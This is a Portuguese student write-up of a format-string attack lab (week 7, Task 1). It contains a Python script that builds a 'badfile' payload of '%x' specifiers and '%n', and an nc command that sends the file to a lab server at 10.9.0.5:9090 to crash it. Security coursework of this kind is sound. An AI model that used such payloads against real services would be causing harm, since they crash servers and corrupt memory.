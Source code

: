 # Semana 7 - Format String Attack

## Task 1

Depois de dar setup deste lab e com o servidor pronto para receber uma mensagem, através do docker, temos como missão crashar o servidor.<br>
Para tal como é referido no guião, o servidor aguenta até 1500 bytes de dados, portanto, para o servidor crashar, precisamos de escrever mais de 1500 bytes de dados para o servidor.<br>
Para fazer isso criamos um ficheiro `badfile` que irá conter a mensagem para enviar para o servidor, e utilizamos o `build_string.py` que contém um script em python para escrever a mensagem para o ficheiro `badfile`.

O `build_string.py` contém o seguinte código:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1501
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with 12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Com o ficheiro pronto para ser enviado, basta enviar a mensagem para o servidor, através do seguinte comando:

`cat badfile | nc 10.9.0.5 9090`

Com isto, o servidor não respondeu com **(^/_^)(^/_^)  Returned properly (^/_^)(^/_^)**, o que significa que crashou.

